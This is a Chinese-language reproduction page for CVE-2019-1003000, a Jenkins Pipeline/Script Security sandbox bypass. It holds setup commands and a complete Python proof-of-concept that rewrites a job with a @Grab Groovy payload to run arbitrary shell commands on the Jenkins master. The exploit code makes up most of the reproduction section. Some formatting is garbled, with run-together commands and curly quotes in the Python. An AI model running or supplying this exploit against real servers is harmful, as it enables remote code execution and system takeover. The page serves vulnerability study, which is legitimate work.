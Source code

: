 ```yaml
---
title: "（CVE-2019-1003000）Jenkins 远程代码执行漏洞"
id: zhfly2989
---
```


# （CVE-2019-1003000）Jenkins 远程代码执行漏洞

## 一、漏洞简介

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin 2.61.1之前的版本以及 Script Security Plugin 1.50之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有“Overall/Read”权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

## 二、漏洞影响

Declarative Plugin < 1.3.4.1

Groovy Plugin < 2.61.1

Script Security Plugin < 1.50

## 三、复现过程

### 环境搭建

```
gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

cdcve-2019-1003000-jenkins-rce-poc

pipinstall -r requirements.txt

cdsample-vuln `./run.sh` 
```

**输入账号密码user1:user1**

![image](../img/2278077d91fc90e17aa6b30e7fe6ea6f.png)

****poc进行攻击pythonexploit.py –url http://www.0-sec.org:8080 –job my-pipeline –usernameuser1 –password user1 –cmd “whoami”****

![image](../img/ab135849aefa036a7c7bf812156af549.png)

![image](../img/2b69dc8a2760cd03bf35253351296021.png)

### poc

```
#!/usr/bin/python

# Author: Adam Jordan

# Date: 2019-02-15

# Repository: [https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc)

# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)

import argparse

import jenkins

import time

from xml.etree import ElementTree

payload = ‘’’

import org.buildobjects.process.ProcBuilder

@Grab(‘org.buildobjects:jproc:2.2.3’)

class Dummy{ }

print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()

‘’’

def run_command(url, cmd, job_name, username, password):

print ‘[+] connecting to jenkins…’

server = jenkins.Jenkins(url, username, password)

```
print '[+] crafting payload...'
ori_job_config = server.get_job_config(job_name)
et = ElementTree.fromstring(ori_job_config)
et.find('definition/script').text = payload % cmd
job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

print '[+] modifying job with payload...'
server.reconfig_job(job_name, job_config)
time.sleep(3)

print '[+] putting job build to queue...'
queue_number = server.build_job(job_name)
time.sleep(3)

print '[+] waiting for job to build...'
queue_item_info = {}
while 'executable' not in queue_item_info:
    queue_item_info = server.get_queue_item(queue_number)
    time.sleep(1)

print '[+] restoring job...'
server.reconfig_job(job_name, ori_job_config)
time.sleep(3)

print '[+] fetching output...'
last_build_number = server.get_job_info(job_name)['lastBuild']['number']
console_output = server.get_build_console_output(job_name, last_build_number)

print '[+] OUTPUT:'
print console_output 
```

if **name** == ‘**main**’:

parser = argparse.ArgumentParser(description=‘Jenkins RCE’)

```
parser.add_argument('--url', help='target jenkins url')
parser.add_argument('--cmd', help='system command to be run')
parser.add_argument('--job', help='job name')
parser.add_argument('--username', help='username')
parser.add_argument('--password', help='password')

args = parser.parse_args()

run_command(args.url, args.cmd, args.job, args.username, args.password) 
``` 
```

## 参考链接

> https://www.freebuf.com/column/197026.html